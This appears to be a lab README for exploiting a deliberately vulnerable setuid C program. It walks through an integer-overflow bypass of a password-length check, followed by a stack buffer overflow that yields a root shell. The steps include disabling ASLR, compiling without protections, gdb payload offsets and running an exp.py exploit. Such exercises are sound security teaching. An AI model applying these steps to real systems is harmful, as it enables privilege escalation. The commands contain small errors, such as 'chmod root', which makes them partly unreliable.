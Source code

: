 Integer Overflow example:

https://sploitfun.wordpress.com/2015/06/23/integer-overflow/

This attack by-passes the password length check by integer overflow 
and then subsequently exploiting stack based buffer overlow.

This works by wrapping unsigned int lager than unsigned char when 
storing in unsigned char destination variable.

1. Disable ALSR using common tool.
2. Compile program and set suid:
   * gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
   * sudo chmod root vuln
   * sudo chgrp root vuln
   * sudo chmod +s vuln
3. Run gdb and test overflow using decimal number > max unsigned char
   * r vuln `python -c 'print "A"*261'` # eip should now be AAAA
4. When eip is gained, calc offset to ret
   * r vuln `python -c 'print "A"*24 + "B"*4 + "C"*233'` # eip should now be BBBB
5. Find suitable NOP address:
   * r vuln `python -c 'print "A"*24 + "B"*4 + "C"*100 + "D"*133'`
   * x/40x $esp # select a memeory location which is CCCC
6. Update exp.py script with NOP address
7. Run exploit:
   * python exp.py
   * Should have root shell, check id
